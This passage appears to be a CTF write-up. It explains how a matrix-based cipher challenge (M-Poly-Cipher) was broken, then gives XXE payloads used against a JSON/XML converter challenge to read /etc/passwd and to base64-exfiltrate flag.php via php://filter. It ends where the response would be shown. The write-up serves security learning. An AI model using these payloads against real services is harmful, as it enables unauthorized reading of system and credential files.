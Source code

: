 ### M-Poly-Cipher

This cipher algorithm is as follows.

- genkey
  1. Generate 8x8 matrices $K1, K2, K3, P$.
  2. The first 4 rows of $K1$ and $K2$ and all elements of $P$ is generated randomly. The last 4 rows of $K1$ and $K2$ are linear correlated with their first 4 rows.
  3. Find $K3$ that satisfies $K1 \times P \times P + K2 \times P \times K3 = 0$.
  4. $K1, K2, K3$ are public keys. $P$ is private key.
- encrypt
  1. A = convert_to_matrix(text)
  2. Generate random matrix S.
  3. $E1 = S \times K1, E2 = S \times K2, E3 = A + S \times K3$
  4. $E1, E2, E3$ are encrypted text
- decrypt
  1. $A = E1 \times P \times P + E2 \times P + E3$
  2. text = convert_to_text(A)

We can solve $S$ through $S = (E1 + E2) \times ((K1 + K2)^{-1})$. Then $A = E3 - S \times K3$.



## Web

### j2x2j

URL: http://j2x2j.chal.ctf.westerns.tokyo/

Basically, it is a converter service for JSON

we were able to leak the `/etc/passwd` file by using XXE vulnerability

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

Since it is PHP, we can RFI using `php://` and arbitrarily load a file we want. For this challenge, we used `php://filter` to base64-encode the flag.php file.

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=flag.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <adress>42 rue du CTF</adress>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```

Response of the above request is as followes:
